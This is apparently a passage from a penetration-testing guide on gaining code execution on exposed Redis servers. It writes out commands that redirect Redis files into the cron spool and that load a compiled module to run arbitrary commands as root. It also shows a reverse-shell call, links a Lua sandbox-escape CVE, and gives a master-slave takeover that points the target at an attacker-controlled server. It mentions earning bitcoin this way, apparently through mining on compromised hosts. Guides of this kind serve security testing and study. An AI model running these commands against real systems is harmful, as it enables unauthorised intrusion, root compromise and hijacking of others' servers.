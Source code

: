 The last example is for Ubuntu, for **Centos**, the above command should be: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Load Redis Module

1. Following the instructions from [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) you can **compile a redis module to execute arbitrary commands**.
2. Then you need some way to **upload the compiled** module
3. **Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`
4. **List loaded modules** to check it was correctly loaded: `MODULE LIST`
5.  **Execute** **commands**:

    ```
    127.0.0.1:6379> system.exec "id"
    "uid=0(root) gid=0(root) groups=0(root)\n"
    127.0.0.1:6379> system.exec "whoami"
    "root\n"
    127.0.0.1:6379> system.rev 127.0.0.1 9999
    ```
6. Unload the module whenever you want: `MODULE UNLOAD mymodule`

### LUA sandbox bypass

[**Here**](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) you can see that Redis uses the command **EVAL** to execute **Lua code sandboxed**. In the linked post you can see **how to abuse it** using the **dofile** function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn't no longer possible. Anyway, if you can **bypass the Lua** sandbox you could **execute arbitrary** commands on the system. Also, from the same post you can see some **options to cause DoS**.

Some **CVEs to escape from LUA**:

* [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

### Master-Slave Module

​The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```
